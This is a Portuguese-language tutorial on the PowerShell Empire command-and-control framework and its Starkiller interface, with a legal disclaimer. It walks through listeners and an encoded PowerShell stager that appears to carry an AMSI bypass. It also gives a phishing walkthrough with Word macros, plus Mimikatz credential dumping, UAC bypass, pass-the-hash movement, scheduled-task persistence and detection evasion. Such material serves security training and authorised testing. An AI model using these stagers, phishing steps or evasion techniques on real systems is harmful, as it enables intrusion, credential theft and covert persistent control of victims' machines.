

<!--
title: Powershell-Empire & Starkiller
desc: Uso avançado do C2 Powershell Empire através da interface Starkiller para pós-exploração e controle de agentes.
tags: windows, c2, post-exploitation
readTime: 8 min
-->

<!-- =============================================== -->
<!--      PowerShell Empire & Starkiller - C2       -->
<!-- =============================================== -->

<p align="center">
  
  
  
</p>

<p align="center">
  
  
  
  
</p>

---

# 🎯 PowerShell Empire & Starkiller
## Command & Control (C2) para Pós-Exploração

> O **PowerShell Empire** é um framework de **Command & Control (C2)** voltado para operações de Red Team e pós-exploração avançada, permitindo controle furtivo de sistemas comprometidos por meio de execução *fileless* diretamente em memória.
>
> Complementando sua operação, o **Starkiller** atua como interface gráfica oficial, oferecendo gerenciamento visual de agentes, módulos e listeners por meio da API REST do Empire.
>
> Juntos, formam uma infraestrutura C2 moderna capaz de:
>
> - Manter acesso persistente
> - Executar coleta de credenciais
> - Realizar movimentação lateral
> - Estabelecer persistência
> - Operar com comunicação criptografada e perfis evasivos

---

## 📌 Contexto Operacional

- **Categoria:** Command & Control (C2)
- **Fase:** Pós-Exploração
- **Execução:** In-Memory / Fileless
- **Comunicação:** HTTP / HTTPS / DNS
- **Arquitetura:** Listener → Stager → Agent → Module
- **Aplicação:** Red Team · Pentest Interno · Laboratórios Controlados

---

## 🧠 Conceitos Fundamentais

- Infraestrutura C2
- Agentes em memória
- Stagers e Listeners
- Credential Dumping
- Lateral Movement
- Persistência
- Evasão de AMSI
- Comunicação Criptografada

---

## 🏷️ Tags

`#CommandAndControl` `#PowerShellEmpire`  
`#Starkiller` `#RedTeam`  
`#PostExploitation` `#C2Framework`  
`#FilelessAttack` `#OffensiveSecurity`

---

## ⚠️ Aviso Legal

> Este material é destinado exclusivamente para fins educacionais, pesquisa em segurança e ambientes devidamente autorizados.
>
> O uso indevido de frameworks C2 fora de contexto legal pode resultar em consequências criminais severas.

---
# PowerShell Empire e Starkiller - C2 para Post-Exploração

## Introdução

No cenário de testes de penetração e operações de Red Team, a fase de pós-exploração é tão crítica quanto a invasão inicial. Após comprometer um sistema, o desafio é manter o acesso, movimentar-se lateralmente pela rede e coletar informações valiosas sem ser detectado. É neste contexto que os frameworks de **Comando e Controle (C2)** se tornam indispensáveis.

O **PowerShell Empire** emergiu como um dos frameworks C2 mais poderosos e populares da última década. Ele permite que operadores controlem sistemas comprometidos de forma furtiva, utilizando a onipresença do PowerShell em ambientes Windows para executar tarefas sem precisar escrever um único arquivo `.exe` no disco da vítima.

Para complementar a experiência de uso e torná-la mais acessível, foi desenvolvido o **Starkiller**, uma interface gráfica oficial (GUI) que se conecta à API REST do Empire. O Starkiller transforma a operação de um C2 em uma experiência visual e colaborativa, facilitando o gerenciamento de múltiplos agentes e a execução de módulos complexos.


---
## 1. O que é o PowerShell Empire?

### 1.1. História e Contexto

O Empire é a fusão de dois projetos anteriores: o **PowerShell Empire** (focado em agentes Windows) e o **Python EmPyre** (focado em agentes Linux/OS X). O PowerShell Empire foi apresentado ao público pela primeira vez na conferência BSidesLV em 2015, revolucionando a maneira como a pós-exploração era conduzida no Windows. Anos depois, em 2019, a equipe da **BC-Security** apresentou atualizações significativas na DEF CON 27, focadas em evadir soluções de segurança modernas, como o AMSI (Anti-Malware Scan Interface) do Windows e assinaturas JA3/S, que são usadas para detectar tráfego malicioso.

É importante notar que, embora o projeto original tenha sido descontinuado, a BC-Security manteve um fork ativo, que é a versão referenciada e utilizada atualmente (Empire 3.x e superiores).


### 1.2 Características Principais

- **Pós-Exploração Poderosa:** O Empire não é uma ferramenta de exploração de vulnerabilidades (como um exploit de SMB). Ele é projetado para ser usado _após_ o acesso inicial ser obtido. Sua força reside na execução de tarefas como:
	- **Coleta de Credenciais:** Integração nativa com o **Mimikatz** para extrair senhas e hashes da memória.
	- **Keylogging:** Captura de teclas digitas pelas vítimas.
	- **Movimentação Lateral:** Uso de técnicas como pass-the-hash para se espalhar pela rede.
	- **Enumeração:** Coleta de informações sobre o sistema, usuários, serviços e configurações de rede.

- **Operação *"Fileless"*:** Uma de suas maiores vantagens é a capacidade de executar agentes PowerShell sem a necessidade de chamar o processo `powershell.exe` tradicional, que é um grande ponto de alerta para soluções de segurança. Os scripts são refletidos na memória, deixando poucos vestígios no disco.

- **Comunicação Criptografada:** O tráfego entre o agente e o servidor C2 é criptografado, dificultando a inspeção por sistemas de prevenção de intrusão (IPS).

- **Arquitetura Flexível:** Utiliza um sistema de listeners e stagers que permite grande adaptabilidade. É possível, por exemplo, criar um listner HTTP, mas gerar um stager em Python para uma máquina Linux.

### 1.3 Componentes do Framework (Termologia)

Para entender o Empire, é crucial dominar sua termologia, que é similar à de outros frameworks C2.

- **Listener (Ouvinte):** É o servidor que fica agurdando as conexões dos agentes. É como o "handler" do Metasploit. Você pode ter múltiplos listeners de diferentes tipos (HTTP, HTTPS, DNS, etc.) rodando simultaneamente.


- **Stager (Estagiador):** É um pequeno payload criado para se conectar a um listener específico. Sua função é "buscar" o agente completo na memória e executá-lo. Pode ser gerado em diversos formatos: um comando PowerShell de uma linha, um script em Python, um macro do Office (VBA), um arquivo executável (`.exe`), etc..


- **Agent (Agente):** É o processo malicioso rodando na máquina da vítima. Ele se comunica periodicamente com o listener para receber comandos e enviar os resultados de volta. Uma vez que um agente é "checkado" (check-in), ele aparece na lista de agentes do Empire, pronto para ser interagido.


- **Module (Módulo):** São os scripts de pós-exploração que podem ser executados nos agentes. Eles são organizados em categorias como `collection` (keylogger, screenshot), `credentials` (Mimikatz), `persistence`, `situational_awareness` (enumeração), etc..


- **Credentials (Credenciais):** O menu Credenciais é muito útil no Starkiller, pois salva todas as credenciais enumeradas encontradas em um dispositivo ou módulo. Ele pode salvar hashes ou senhas em texto simples; você também pode adicionar manualmente quaisquer credenciais que não sejam coletadas automaticamente.


- **Reporting (Relatórios):** O menu Relatórios é outro menu útil que permite visualizar comandos ou módulos do shell que você executou no passado e registrá-los neste menu, o que é ótimo para revisar seu trabalho.


---
## 2. Starkiller: A Interface Gráfica (GUI)

Gerenciar um Red Team inteiro apenas pela linha de comando pode ser caótico. O **Starkiller** surge como a solução oficial para isso. Desenvolvido pela BC-SECURITY, é uma aplicação web (anteriormente um aplicativo Electron/VueJS) que se conecta à API REST do Empire.


### 2.1 Por que usar o Starkiller?

- **Intuitividade:** Em vez de memorizar comandos como `usemodule collection/osx/screenshot`, você navega por menus e clica em botões.

- **Visibilidade:** É muito mais fácil visualizar a lista de agentes ativos, suas informações (IP, usuário, hostname) e os listeners ativos em um painel gráfico.

- **Colaboração:** O Starkiller foi projetado para operações em equipe. Ele possui um sistema de chat integrado e gerenciamento de usuários, permitindo que múltiplos operadores trabalhem na mesma infraestrutura C2 de forma organizada.

- **Eficiência:** Tarefas repetitivas, como lançar um módulo de coleta em vários agentes, podem ser feitas de forma mais rápida e visual.

### 2.2 Instalação e Acesso

A partir da versão 5.0 do Empire, o Starkiller é integrado diretamente ao servidor. Quando você inicia o Empire no modo REST API, ele automaticamente serve a interface web do Starkiller.

1. **Inicie o servidor Empire com a API REST:**

```bash
sudo powershell-empire server --rest
```

Por padrão, a API rodará na porta `1337` com as credenciais `empireadmin:password123`.

2. **Acesse o Starkiller:** Abra um navegador web e vá para `https://<IP_SERVIDOR>:1337`. Aceite o aviso de certificado autoassinado e faça o login com as credenciais configuradas.

O painel principal do Starkiller é dividido em seções que mapeiam os componentes do Empire:

- **Listeners:** Para gerenciar os listeners.
- **Stagers:** Para gerar os payloads de conexão.
- **Agents:** Para visualizar e interagir com as máquinas comprometidas.
- **Modules:** O catálogo completo de módulos de pós-exploração.
- **Credentials:** Onde as senhas e hashes capturados são armazenados.
- **Reporting:** Logs de todas as ações e eventos.
- **Chat:** Para comunicação entre operadores.

---
## 3. Instação do Empire

Existem várias maneiras de instalar o Empire, sendo as mais comuns no Kali Linux e via Docker.

### 3.1 No Kali Linux

A maneira mais direta é usar o gerenciador de pacotes `apt`.

```bash
# Atualize a lista de pacotes
sudo apt update

# Instale o powershell-empire
sudo apt install powershell-empire
```

### 3.2 Instalação via GitHub (para a versão mais recente)

Para garantir a versão mais atualizada com todos os recursos mais recentes, clone o repositório oficial da BC-SECURITY.

```bash
# Clone o repositório (incluindo submódulos)
git clone --recursive https://github.com/BC-SECURITY/Empire.git

# Entre no diretório
cd Empire

# Execute o script de instalação (requer sudo)
sudo ./setup/install.sh
```

A pós a instalação, é possível iniciar o servidor e o cliente CLI:

```bash
# Iniciar o servidor (modo API REST + CLI)
sudo powershell-empire server

# Em outro terminal, iniciar o cliente de linha de comando
sudo powershell-empire client
```

### 3.3 Usando Docker

O Docker oferece uma maneira limpa e isolada de executar o Empire, independentemente da distribuição Linux.

```bash
# Baixar a imagem (use 'latest' para a versão estável mais recente)
docker pull bcsecurity/empire:latest

# Executar o container de forma interativa
docker run -it bcsecurity/empire:latest
```

---
## 4. Guia de Operações (Mão na Massa)

Vamos percorrer o fluxo de trabalho típico de uma operação, desde a criação de um listener até a execução de comandos em um agente, tanto na CLI quanto no Starkiller.

### 4.1 Gerenciando Listeners

O listener é o ponto de partida. Ele é o endereço para onde as vítimas irão se conectar.

**No CLI:**

```bash
# Entrar no menu de listeners
(Empire) > listeners

# Ver a lista de listeners ativos
(Empire: listeners) > list

# Usar um listener do tipo http
(Empire: listeners) > uselistener http

# Ver as opções a serem configuradas (como Host, Port, Name)
(Empire: listeners/http) > info

# Configurar o nome do listener (obrigatório)
(Empire: listeners/http) > set Name myListener

# Configurar o IP do servidor C2 (obrigatório)
(Empire: listeners/http) > set Host 192.168.1.100

# Configurar a porta (padrão é 80)
(Empire: listeners/http) > set Port 8080

# Iniciar o listener
(Empire: listeners/http) > execute

# Voltar ao menu principal
(Empire: listeners) > back
```

**No Starkiller:**

1. Vá para a aba **"Listeners"**.
2. Clique no botão **"Create Listener"**.


3. Escolha o tipo (ex: `http`).


4. Preencha os campos obrigatórios (Name, Host, Port) no formulário.


5. Clique em **"Submit"** para iniciar o listener.

O menu para criar um listener oferece diversas opções. Esses campos de opção variam de listener para listener. Abaixo, você encontrará um resumo de cada campo presente no listener HTTP e como eles podem ser usados ​​e ajustados.

- **Nome** - Especifica o nome que o listener exibirá no menu de listeners.
- **Host** - Endereço IP para conexão.
- **Port** - Porta para escutar.
- **BindIP** - Endereço IP para vinculação (normalmente localhost / 0.0.0.0)

Essas opções podem ser usadas para especificar como o listener opera e é executado ao ser iniciado e durante a execução.

- DefaultDelay
- DefaultJitter
- DefaultLostLimit

As seguintes opções podem ser úteis para contornar técnicas de detecção e criar listeners mais complexos.

- **DefaultProfile** - Permite especificar o perfil ou User-Agent usado.
- **Headers** - Como este é um listener HTTP, ele especificará os cabeçalhos HTTP.
- **Launcher** - Qual iniciador usar para o listener; este será o prefixo no stager.

### 4.2 Gerando Stagers

Com o listener ativo, precisamos de um stager para que a vítima se conecte a ele.

**No CLI:**

```bash
# Entrar no menu de stagers
(Empire) > usestager

# Pressione TAB duas vezes para ver todas as opções de stager
# Escolheremos o multi/launcher, que gera um comando PowerShell de uma linha
(Empire) > usestager multi/launcher

# Ver as opções. A principal é qual listener este stager irá usar.
(Empire: stager/multi/launcher) > info

# Configurar o listener
(Empire: stager/multi/launcher) > set Listener myListener

# Opcional: Configurar um UserAgent para parecer mais legítimo
(Empire: stager/multi/launcher) > set UserAgent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36"

# Gerar o stager. O comando PowerShell completo aparecerá na tela.
(Empire: stager/multi/launcher) > execute

# Saída esperada: um comando como "powershell -noP -sta -w 1 -enc  SQBmACgAJABQA..."
```

**No Starkiller:**

1. Vá para a aba **"Stagers"**.


2. Selecione o tipo de stager no menu suspenso (ex: `windows/launcher_bat`).


3. No formulário, selecione o listener criado anteriormente e ajuste outras opções (como `UserAgent`).


4. Clique em **"Generate Stager"**. O comando ou arquivo gerado aparecerá na interface para ser copiado.

O menu para criar um stager não possui muitas opções, mas permite personalizar cada stager de acordo com suas preferências, escolhendo o listener desejado. O menu do stager pode conter diversas opções, dependendo do stager selecionado, além de campos opcionais.

- **Listener** - Selecione qual listener usar a partir de uma lista de listeners criados no servidor Empire.
- **Base64** - Habilita ou desabilita a codificação do stager em base64.
- **Language** - Idioma usado para criar o stager: bash, PowerShell, Python, etc.
- **SafeChecks** - Habilita ou desabilita as verificações para o stager.

Em seguida é necessário fazer download do arquivo `launcher.bat` e depois move-lo para o diretório `/tmp` da máquina atacante.


**Movendo o arquivo:**

```bash
mv /Downloads/launcher.bat /tmp/launcher.bat
```

### 4.3 Obtendo um Agente

Copie o comando PowerShell gerado e execute-o na máquina alvo. Pode ser via um macro do Office, um download via `wget` e execução, ou diretamente em um prompt de comando se você já tiver acesso.

Existem muitas maneiras de enviar o arquivo de preparação para a máquina alvo, incluindo SCP, phishing e droppers de malware; neste exemplo, usaremos o próprio Meterpreter para transferir o arquivo de preparação ou executar o comando do stager através do shell da máquina vulnerável.

- **Para transferir e executar o stager:**

```bash
meterpreter > cd ../..
meterpreter > cd Users/Jon/Documents
meterpreter > upload /tmp/launcher.bat "C:\Users\Jon\Documents\launcher.bat"
```

```shell
meterpreter > shell

C:\Users\Jon\Documents> .\launcher.bat # para executar
```

- **Executando de forma direta sem transferir o arquivo** (é necessário copiar o comando fornecido pelo powershell-empire):

```shell
C:\Users\Jon\Documents> powershell.exe -nop -ep bypass -w 1 -enc JABSAGUAZgA9AFsAUgBlAGYAXQAuAEEAcwBzAGUAbQBiAGwAeQAuAEcAZQB0AFQAeQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpAFUAdABpAGwAcwAnACkAOwAkAFIAZQBmAC4ARwBlAHQARgBpAGUAbABkACgAJwBhAG0AcwBpAEkAbgBpAHQARgBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAGUAdAB2AGEAbAB1AGUAKAAkAE4AdQBsAGwALAAkAHQAcgB1AGUAKQA7AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnAG4AbwBzAHQAaQBjAHMALgBFAHYAZQBuAHQAaQBuAGcALgBFAHYAZQBuAHQAUAByAG8AdgBpAGQAZQByAF0ALgBHAGUAdABGAGkAZQBsAGQAKAAnAG0AXwBlAG4AYQBiAGwAZQBkACcALAAnAE4AbwBuAFAAdQBiAGwAaQBjACwASQBuAHMAdABhAG4AYwBlACcAKQAuAFMAZQB0AFYAYQBsAHUAZQAoAFsAUgBlAGYAXQAuAEEAcwBzAGUAbQBiAGwAeQAuAEcAZQB0AFQAeQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBl
```

**Resultado:**



Assim que o comando for executado, o stager entrará em contato com o listener, baixará o agente completo e o executará na memória. Você verá uma mensagem no Empire indicando um novo agente.

**No CLI:**

```bash
# Ver a lista de agentes
(Empire) > agents

# Para interagir com um agente específico (use o nome dele)
(Empire) > interact 8Y7SBV4G

# Dentro do agente, você pode ver os comandos disponíveis
(Empire: 8Y7SBV4G) > help
```

**No Starkiller:**

1. Vá para a aba **"Agents"**.
2. O novo agente aparecerá na lista com seu nome, IP interno, usuário e hostname.
3. Clique no nome do agente para abrir a tela de interação. Lá você pode ver informações detalhadas e executar comandos.

### 4.4 Executando Comandos Básicos no Agente

Uma vez interagindo com o agente, você pode começar a explorar o sistema.

**No CLI:**

```bash
# Obter informações do sistema (OS, arquitetura, etc.)
(Empire: 8Y7SBV4G) > sysinfo

# Ver o diretório atual
(Empire: 8Y7SBV4G) > pwd

# Listar processos (equivalente ao 'ps' do Linux)
(Empire: 8Y7SBV4G) > ps

# Mudar de diretório
(Empire: 8Y7SBV4G) > cd C:\Users

# Executar comandos normais do shell do Windows (cmd)
(Empire: 8Y7SBV4G) > shell whoami /groups
```

**No Starkiller:**  
Na tela de interação do agente, existe uma caixa de texto onde você pode digitar os comandos (`sysinfo`, `ps`, `shell whoami`) e clicar em "Enviar". Os resultados aparecerão no painel de saída.


### 4.5 Usando Módulos

O verdadeiro poder do Empire está nos seus módulos. Vamos ver alguns exemplos.

#### **Exemplo 1: Tirar um Screenshot da Área de Trabalho**

**No CLI:**

```bash
# Dentro do agente interagido, procure pelo módulo de screenshot
(Empire: 8Y7SBV4G) > usemodule collection/screenshot

# Verifique as opções (geralmente só precisa do agente)
(Empire: module) > info

# Configure o agente alvo (se não estiver pré-selecionado)
(Empire: module) > set Agent 8Y7SBV4G

# Execute o módulo
(Empire: module) > execute
```

A imagem será salva no diretório `downloads/` do Empire.

#### **Exemplo 2: Executar o Mimikatz para Capturar Credenciais**

**No CLI:**

```bash
# Encontrar o módulo do mimikatz
(Empire: 8Y7SBV4G) > usemodule credentials/mimikatz/logonpasswords

# Configure o agente e execute
(Empire: module) > set Agent 8Y7SBV4G
(Empire: module) > execute
```

Os resultados, como hashes NTLM e senhas em texto claro, serão exibidos. Além disso, eles são automaticamente armazenados no banco de dados de credenciais do Empire.

#### **Exemplo 3: Elevação de Privilégio (Bypass UAC)**

**No CLI:**

```bash
# Assumindo que você tem um agente como um usuário comum, tente elevar para Admin
(Empire: 8Y7SBV4G) > usemodule privesc/bypassuac

# Configure o agente e o listener (o bypassuac geralmente cria um novo agente com privilégios mais altos)
(Empire: module) > set Agent 8Y7SBV4G
(Empire: module) > set Listener myListener
(Empire: module) > execute
```

Se bem-sucedido, um novo agente (marcado com um `*` na lista) aparecerá, rodando com privilégios de administrador.

**No Starkiller:**

1. Vá para a aba **"Modules"**.
2. Use a barra de pesquisa para encontrar um módulo, como `screenshot` ou `mimikatz`.
3. Clique no módulo desejado.
4. No painel de configuração, selecione o agente alvo no menu suspenso.
5. Ajuste outros parâmetros se necessário e clique em **"Execute"**.
6. O resultado da execução aparecerá na área de saída ou será baixado para o seu navegador (no caso de arquivos como screenshots).


---
## 5. Casos de Uso e Cenários Práticos

### 5.1 Phishing com Macro do Office

Este é um vetor de ataque inicial clássico usando o Empire.

1. Crie um listener HTTP.
2. Use o stager `windows/macro`. Execute-o e copie o código VBA gerado.
3. Crie um documento do Word, vá em "Exibir" -> "Macros", crie uma nova macro com um nome genérico (ex: `AutoOpen` ou `Document_Open`) e cole o código.
4. Salve o documento no formato "Word 97-2003 (.doc)" para máxima compatibilidade.
5. Envie o documento por e-mail para o alvo. Quando ele abrir o documento e habilitar as macros (muitas vezes enganado por instruções falsas no corpo do documento), o stager será executado e um agente será criado.

### 5.2 Movimentação Lateral com Credenciais Capturadas

Após executar o Mimikatz em um agente e obter hashes NTLM de um administrador local, você pode usar esses hashes para se mover para outras máquinas.

1. As credenciais capturadas aparecem na aba **"Credentials"** do Starkiller ou no comando `creds` na CLI.
2. Use o módulo de movimentação lateral apropriado, como `psexec` ou `wmi`, configurando o listener para criar um novo agente na máquina alvo.

```bash
(Empire) > usemodule lateral_movement/invoke_psexec
(Empire: module) > set Listener myListener
(Empire: module) > set ComputerName TARGET-PC-02
(Empire: module) > set Hash <NTLM_HASH_CAPTURADO>
(Empire: module) > execute
```

### 5.3 Estabelecendo Persistência

Para garantir que o acesso não seja perdido se a máquina for reiniciada, você pode implantar um mecanismo de persistência.

1. Interaja com o agente.
2. Use um módulo de persistência, como um script de logon ou um serviço malicioso.

```bash
(Empire: 8Y7SBV4G) > usemodule persistence/userland/schtasks
(Empire: module) > set Listener myListener
(Empire: module) > set Agent 8Y7SBV4G
(Empire: module) > execute
```

Isso criará uma tarefa agendada que executa o stager periodicamente, garantindo que o agente retorne mesmo após um reboot.

---
## 6. Boas Práticas e Evasão

- **Ofuscação de Stagers:** Use as opções de ofuscação disponíveis no Empire (como `multi/launcher` com `Obfuscate` e `ObfuscateCommand`) para evitar detecção por assinaturas de antivírus baseadas em strings.

- **Perfis de Comunicação (C2 Profiles):** Use listeners do tipo `http` com perfis `malleable` para imitar tráfego HTTP legítimo (como requisições para APIs do Google ou Cloudflare), fugindo de detecções baseadas em JA3 e padrões de tráfego.

- **Segmentação de Infraestrutura:** Use listeners `redirector` ou `hop` para não expor diretamente o IP do seu servidor C2 principal. Um servidor intermediário (hop) recebe as conexões e as redireciona para o servidor real.

- **HTTPS com Certificados Válidos:** Configure listeners HTTPS usando certificados de domínios legítimos (obtidos gratuitamente com Let's Encrypt) para que o tráfego pareça seguro e criptografado de forma comum.

---
## **Conclusão**

O PowerShell Empire e o Starkiller formam uma das duplas de ferramentas C2 mais formidáveis disponíveis para profissionais de segurança ofensiva. Enquanto o Empire oferece um motor de pós-exploração incrivelmente poderoso e furtivo, baseado na onipresença do PowerShell, o Starkiller torna essa potência acessível e gerenciável por meio de uma interface gráfica intuitiva e colaborativa.
